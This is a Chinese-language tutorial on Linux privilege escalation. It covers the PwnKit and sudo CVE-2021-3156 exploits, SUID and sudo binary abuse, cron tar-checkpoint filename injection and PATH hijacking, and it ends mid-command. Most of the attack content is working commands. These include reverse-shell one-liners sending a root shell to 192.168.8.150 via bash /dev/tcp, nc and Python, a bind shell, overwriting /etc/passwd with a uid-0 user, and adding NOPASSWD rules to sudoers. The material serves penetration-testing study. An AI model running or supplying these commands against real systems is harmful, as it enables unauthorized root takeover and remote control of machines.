

## 3.6 Polkit提权-通杀linux<2021(CVE-2021-4034)

2021年，Qualys研究团队公开披露了在Polkit的pkexec 中发现的一个权限提升漏洞，也被称为PwnKit。该漏洞是由于pkexec 没有正确处理调用参数，导致将环境变量作为命令执行，攻击者可以通过构造环境变量的方式，诱使pkexec执行任意代码使得非特权本地用户获取到root的权限。

### 3.6.1 漏洞简介

**影响范围（受影响的主流Linux发行版本）：**

```plain
Ubuntu 21.10 (Impish Indri) policykit-1 < 0.105-31ubuntu0.1 
Ubuntu 21.04 (Hirsute Hippo) policykit-1 Ignored (reached end-of-life) 
Ubuntu 20.04 LTS (Focal Fossa) policykit-1 < Released (0.105-26ubuntu1.2) 
Ubuntu 18.04 LTS (Bionic Beaver) policykit-1 < Released (0.105-20ubuntu0.18.04.6) 
Ubuntu 16.04 ESM (Xenial Xerus) policykit-1 < Released (0.105-14.1ubuntu0.5+esm1) 
Ubuntu 14.04 ESM (Trusty Tahr) policykit-1 < Released (0.105-4ubuntu3.14.04.6+esm1) 
CentOS 6 polkit < polkit-0.96-11.el6_10.2 
CentOS 7 polkit < polkit-0.112-26.el7_9.1 
CentOS 8.0 polkit < polkit-0.115-13.el8_5.1 
CentOS 8.2 polkit < polkit-0.115-11.el8_2.2 
CentOS 8.4 polkit < polkit-0.115-11.el8_4.2 
Debain stretch policykit-1 < 0.105-18+deb9u2 
Debain buster policykit-1 < 0.105-25+deb10u1 
Debain bookworm, bullseye policykit-1 < 0.105-31.1
```

**漏洞原理**

Polkit（PolicyKit）是类Unix系统中一个应用程序级别的工具集，通过定义和审核权限规则，实现不同优先级进程间的通讯。pkexec是Polkit开源应用框架的一部分，可以使授权非特权用户根据定义的策略以特权用户的身份执行命令。

### 3.6.2 利用复现

漏洞利用工具：https://github.com/berdav/CVE-2021-4034

下载漏洞利用工具，这里现将工具压缩包下载值kali，在kali上用python开启web服务，来让被攻击主机下载。

wget http://192.168.219.134:8000/CVE-2021-4034-main.zip

压缩，编译，利用。

```shell
unzip CVE-2021-4034-main.zip
cd CVE-2021-4034-main
make
./cve-2021-4034
```



# 0x04 SUID提权

SUID (Set owner User ID up on execution) 是给予文件的一个特殊类型的文件权限。

在 Linux/Unix中，当一个程序运行的时候， 程序将从登录用户处继承权限。SUID被定义为给予一个用户临时的（程序/文件）所有者的权限来运行一个程序/文件。用户在执行程序/文件/命令的时候，将获取文件所有者的权限以及所有者的UID和GID。

如果root给一个程序赋予了SUID权限，则普通用户在执行该程序过程中，是root权限。

suid权限仅对二进制程序有效（binary program）(系统中的一些命令），不能用在脚本上（script）。

 执行者对于该程序需要具有x的可执行权限；

本权限仅在执行该程序的过程中有效（run-time）；

执行者将具有该程序拥有者的权限。

## 4.1. SUID设置

这里举个例子，看一下SUID如何设置。

新建一个1.txt，并且查看现有的权限，然后加上SUID权限，看文件的变化，通过从权限上的变化也能够看出，所有者权限位上出现了S，那么就证明这个文件存在SUID权限，也就是说当普通用户去执行该文件的时候也是以root权限去执行。



## 4.2. 查找拥有SUID权限的程序

这里使用下列命令，可以查找到拥有SUID权限的程序，同时也能看到，刚刚我们添加的1.txt也被查找到了。

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
find / -user root -perm -4000 -print 2>/dev/null
-perm 指定权限
-u=s 表示SUID权限
-type 指定文件类型
f 表示常规文件，而不是目录或特殊文件
2 表示该进程的第二个文件描述符，即stderr（标准错误）
/dev/null 是一个特殊的文件系统对象，它将丢弃写入其中的所有内容。
```



## 4.3. 各类提权命令

常见具有SUID权限的二进制可执行文件如下：

```bash
nmap vim find bash more less nano cp awk
```

这个可能存在一个疑问就是，为什么刚刚查找到的命令中并没有这些二进制可执行文件，是由于当登录的用户为root权限的时候，就会出现默认的所有命令都是以root权限去执行，但是在实际环境中，由于root权限过大，当管理员想要管理的时候，通常会将一些常见的搜索、文本编辑、下载安装等设置上SUID权限，让在普通用户权限下也能够以root权限去执行。

这里我们添加一下find设置为SUID权限，让普通用户也能够查找文件。

```bash
chmod u+s /usr/bin/find
ll /usr/bin | grep find
```



## 4.4 find命令提权

实用程序find用来在系统中查找文件。同时，它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。

```shell
find 文件名 -exec 执行命令 \;

大部分Linux 系统都安装了nc。使用如下命令即可成功得到root shell：
find / -type f -exec /bin/bash \;
find . -exec /bin/sh \; -quit

采用广播shell
在靶机上：find user -exec nc -lvp 4444 -e '/bin/sh' \;
在攻击机上：nc 靶机ip 4444

find反弹shell
bash:
find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.8.150/10086 0>&1 \;

nc:
find /var/www/dirty -exec nc 192.168.8.150 10086 -t -e /bin/sh \;

python:
find /etc/passwd -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.8.150",10086));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-ip"]);' \;
```

## 4.5 git 提权

```shell
git help add
git help config
git -p help
//三选一
输密码
再
!/bin/bash
即可
```

## 4.6 zip提权

zip 命令用于压缩文件，是个 使用广泛的压缩程序，压缩后的文件后缀名为 .zip。通过压缩一个存在的文件，并调用-T参数输出shell

1. 下载zip（如果没有）**apt install zip**

2. 创建一个1.txt，将其压缩为1.zip

3. 执行

```shell
touch 1.txt
zip 1.zip 1.txt -T --unzip-command="sh -c /bin/bash"
或
touch 1.txt
zip 1.zip 1.txt -T -unzip-command="sh -c /bin/bash"
```

## 4.7 nmap提权

较旧版本的Nmap（2.02≤nmap<5.21）带有交互模式，从而允许用户执行shell命令。由于Nmap位于上面使用root权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的shell。）

可以使用下命令进入namp交互模式

```
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
执行命令后会返回一个shell
```

5.2.0 之后，nmap 还可以通过执行脚本来提权

```
# nse脚本 shell.nse
os.execute('/bin/sh')
# nmap 提权
nmap --script=shell.nse 

或者：
echo 'os.execute("/bin/sh")' > getshell
sudo nmap --script=getshell
```

## 4.8 vim/less/more提权

如果vim 是通过SUID运行，就会继承root用户的权限。可读取只有root能读取的文件。

```
vim /etc/shadow
```

vim 运行shell

```
vim
:set shell=/bin/sh
:shell
```

less和more相同

PS：**使用more和less一定读取一个比较大的文件，如果文件太小无法进入翻页功能，无法使用`!`命令进入shell。**

## 4.9 awk提权

```
awk 'BEGIN {system("/bin/bash")}'
```

## 4.10 **strace**

```
strace -o/dev/null /bin/bash
```

## 4.11 cp/mv提权

```
1.[zabbix@localhost ~]$ cat /etc/passwd >passwd
2.[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123
3.$1$hack$WTn0dk2QjNeKfl.DHOUue0
4.[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd
5.[zabbix@localhost ~]$ cp passwd /etc/passwd
6.[zabbix@localhost ~]$ su - hack
7.Password:
8.[root@361way ~]# id
9.uid=0(hack) gid=0(root) groups=0(root)
10.[root@361way ~]# cat /etc/passwd|tail -1
11.hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

先利用openssl生成密码

```
openssl passwd -1 -salt 114154 cmd114514
```

 用具有suid权限的cp，将/etc/passwd文件复制到当前目录，添加用户，并且添加密码



上面添加了aaa用户，但是用户id为0，表示root权限

之后复制修改后的passwd到原位置,su aaa一下，发现是root权限



非suid的cp则修改后是无法复制到/etc目录下的

## 4.12 nano命令提权

利用nano这种比较古老的文本编辑器进入shell交互界面就比较简单了

```
nano
ctrl + R
ctrl + X
#shell
```

## 4.13 bash提权

bash命令有的靶机是设置了suid权限的，有的没有设置suid权限

我的靶机没有设置suid权限，这里就口头描述一下

```shell
id
#uid=1024(qsdz) gid=999(qsdz) groups=999(qsdz)
bash -p
#生成一个  bash-3.2#
bash-3.2# id
#uid=1024(qsdz) gid=999(qsdz) euid=0(root) groups=999(qsdz)
```

## 4.14 man 提权

```
man passwd
!/bin/bash
```

## 4.15 wget提权

```
wget http://192.168.56.1:8080/passwd -O /etc/passwd
```

## 4.16 各种语言

```python
python
python -c "import os;os.system('/bin/bash')"

perl
exec "/bin/bash";
```

## 4.17 ed命令提权

```shell
ed是Linux中功能最简单的文本编辑程序,一次仅能编辑一行而非全屏幕方式的操作。我们在命令行模式执行命令：
ed
!whoami
root
!
```

## 4.18 dmesg命令提权

显示Linux系统启动信息
 dmesg命令 被用于检查和控制内核的环形缓冲区。kernel会将开机信息存储在ring buffer中。您若是开机时来不及查看信息，可利用dmesg来查看。开机信息保存在/var/log/dmesg文件里。
 :::info
 dmesg -H
 :::
 进入命令行模式，`!command`执行命令
 [](https://storage.tttang.com/media/attachment/2022/10/28/a5b3cdfa-1489-48df-a0a5-aef101c42583.png)

## 4.19 env命令提权

env whoami

env /bin/bash

env /bin/sh



## 4.20 ftp命令提权

```
ftp
!/bin/bash   [sh]
```



## 简单总结列表

```shell
命令	      利用方法
zsh	        zsh
xargs	      xargs -a /dev/null sh -p
watch	      watch -x sh -c ‘reset; exec sh -p 1>&0 2>&0’
timeout	    timeout 7d /bin/sh -p
time	      time /bin/sh -p
tclsh	      1、tclsh 2、exec /bin/sh -p <@stdin >@stdout 2>@stderr
taskset	    taskset 1 /bin/sh -p
stdbuf	    stdbuf -i0 /bin/sh -p
strace	    strace -o /dev/null /bin/sh -p
ssh	        ssh -o ProxyCommand=’;sh -p 0<&2 1>&2’ x
setarch	    setarch $(arch) /bin/sh -p
rsync	      rsync -e ‘sh -p -c “sh -p 0<&2 1>&2”’ 127.0.0.1:/dev/null
rpm	        rpm --eval ‘%{lua:os.execute("/bin/sh -p")}’
python	    python -c ‘import os; os.execl("/bin/sh", “sh”, “-p”)’
php	        1、CMD="/bin/sh" 2、 php -r “pcntl_exec(’/bin/sh’, [’-p’]);”
nice	      nice /bin/sh -p
nano	      1、nano //运行nano程序  2、^R //按下ctrl-r 3、^X //按下ctrl-x 4、reset; sh -p 1>&0 2>&0
                             // 输 入下面的命令
more	      1、more /etc/profile  2、!/bin/sh -p
logsave	    logsave /dev/null /bin/sh -i -p
less	      less /etc/profile //读取文件，在底行输入!/bin/sh -p
ksh	        ksh -p
ip	        1、ip netns add foo 2、ip netns exec foo /bin/sh -p 3、ip netns delete foo
ionice	    ionice /bin/sh -p
git	        git help status
gimp	      gimp -idf --batch-interpreter=python-fu-eval -b ‘import os; os.execl("/bin/sh", “sh”,         “-p”)’
gdb	        gdb -nx -ex ‘python import os; os.execl("/bin/sh", “sh”, “-p”)’ -ex quit
ftp	        ftp //在底行输入“!/bin/sh -p”
flock	      flock -u / /bin/sh -p
find	      find . -exec /bin/sh -p ; -quit
expect	    expect -c ‘spawn /bin/sh -p;interact’
env	        env /bin/sh -p
ed	        ed //在底行输入“!/bin/sh -p”
docker	    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
dmesg	      dmesg -H//在底行输入“!/bin/sh -p”
csh	        csh -b
bash	      bash -p
awk	        awk ‘BEGIN {system("/bin/bash -p")}’
perl	      perl exec “/bin/bash”;
```


# 0x05 sudo提权（一类）

sudo是以root权限去运行一个命令，且不需要知道root用户的密码，只需要知道本用户的密码(su则是切换用户，su root需要知道root用户的密码)

当知道用户密码，但无法 sudo bash或者sudo su的时候，可以尝试用其他命令提权

```undefined
sudo -l查看当前用户可以以sudo运行的命令或者二进制文件
```

打法和suid提权一样，只不过换成用"sudo+命令" 的格式来启动

**补充：**

直接在低权shell里面用sudo是不奏效的，这是因为出于安全考虑，linux要求用户必须从终端设备（tty）中输入密码，而不是标准输入（stdin）。换句话说，sudo在你输入密码的时候本质上是读取了键盘，而不是bash里面输入的字符。因此为了能够输入密码，我们必须模拟一个终端设备。

python就有这样的功能。在shell里面输入：

    python -c 'import pty;pty.spawn("/bin/sh")'

就用python建立了一个虚拟终端，然后就可以使用sudo等等命令了。

# 0x06 sudo 漏洞提权-CVE-2021-3156（二类）

## 6.1 概述

当sudo通过 -s 或 -i 命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。

**影响版本**

sudo 1.8.2 - 1.8.31p2

sudo 1.9.0 - 1.9.5p1

**查看sudo版本**
命令：sudo --version

**POC**

https://github.com/worawit/CVE-2021-3156

## 6.2 复现

```
sudo --version
```



```
python exploit_defaults_mailer.py

/tmp/sshell
```




我在ubuntu20上复现失败了，如果有需要，应该查看readme文件，根据不同系统选择不同的exp文件，这里复现的这个是针对centOS7的

# 0x07 利用权限配置不当文件提权

简单来说就是：当某个进程启动权限为ROOT，对应文件编辑权限却为普通用户时，我们可以利用该问题点进行提权。

pspy(https://github.com/DominicBreuker/pspy)

该工具提供了普通用户权限即可监听进程信息

**测试环境**：

首先我们创建一个while循环，并使用ROOT用户循环执行/tmp/1.sh。

**利用**：

我们获取普通用户权限时，利用pspy可以监控到ROOT用户在持续执行/tmp/1.sh：



尝试查看/tmp/1.sh文件内容和权限，发现我们当前用户具备读写权限：



我们尝试替换文件内容，查看是否会以ROOT权限启动其中命令：



发现成功提权，以ROOT权限启动自定义命令：




# 0x08 利用cron环境变量提权

 cronjobs是定时任务，在特定的日期和时间执行计划任务。例如定期备份或者定期清理某个目录等都会用到，定义格式如下:



查看计划任务的方法:

```
crontab -l
ls -alh /var/spool/cron
cat /etc/cron*
```

## 8.1 可以修改定时任务文件

此方法苛刻的地方在于需要某些定时任务设置的文件普通用户能够修改

首先查看目标/etc/crontab，看看有无可利用的文件



若有，转到相应的文件并且修改，如一个py文件并且属主为root，若能修改文件，可添加如下代码



```python
import os
import sys
try:
        os.system("chmod u+s /bin/bash")
except:
        sys.exit()
```

每隔一分钟将 /bin/bash 赋予suid权限

之后

```cobol
/bin/bash -p
```

提权



## 8.2 无法修改定时任务文件

crontab看到文件



vim一下



看到是tar命令，便可以利用

   在tar命令中有一个checkpoint参数，即检查点，比如checkpoint=1，则代表压缩过程中每压缩一个文件就去执行一个检查操作。
   而这个检查操作的参数是-checkpoint-action=exec=，后面可以跟要执行的命令。
   利用思路就是我们写入一个可以提提权的sh脚本，这个思路就多了....然后利用checkpoint-action=exec=接一个执行sh脚本的命令即可。

这里创建shell.sh写入

```typescript
echo "test ALL=(root) NOPASSWD:ALL" >> /etc/sudoers
```

 输入

```cobol
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=bash shell.sh"
```

这样上面两个文件名就会被tar当作参数执行

一小会后:




# 0x09 利用path环境变量提权

> 利用关键在于找到具有SUID权限的文件，环境变量中有自己能控制的路径，比如当前目录(.)
>
> 详细文章参考：https://xz.aliyun.com/t/2767

PATH 是Linux 和 Unix 操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

使用echo命令显示当前PATH环境变量：


## 9.1 **测试：**

**环境配置：**

现在我们的当前目录是/home/yokan，我们将在当前目录下创建一个srcipt目录。然后cd到script目录中，编写一个简单的c程序来调用系统二进制文件的函数。

```shell
pwd
mkdir script
cd /script
nano demo.c //编辑demo.c文件
```

demo.c文件内容如下图，你可以看到，我们调用了ps命令，即系统二进制文件:



然后使用gcc命令编译demo.c文件并且赋予编译文件SUID权限，命令如下：

```
gcc demo.c -o shell    #需要以root权限编译
chmod u+s shell
ls -la shell
```


**攻击利用**：

首先，你需要先入侵靶机系统并且进入到提权阶段。假设你已经通过ssh成功登录到了靶机上，二话不说，我们直接使用find命令来搜索具有SUID或4000权限的文件。

```
find / -perm -u=s -type f 2>/dev/null
```

通过执行上述命令，攻击者可以遍历任何可执行文件，在这里我们可以看到/home/yokan/script目录下的shell文件具有SUID权限，如图：



于是我们cd到/home/yokan/script/目录下，ls一下，看到了名为shell的可执行文件。我们运行一下这个文件，可以看到shell文件尝试执行ps命令，这个命令是/bin目录下的用来查看进程状态的真实文件。

```
ls
./shell
```


提权：

**echo命令**

```shell
cd /tmp
echo “/bin/bash” > ps
chmod 777 ps
echo $PATH
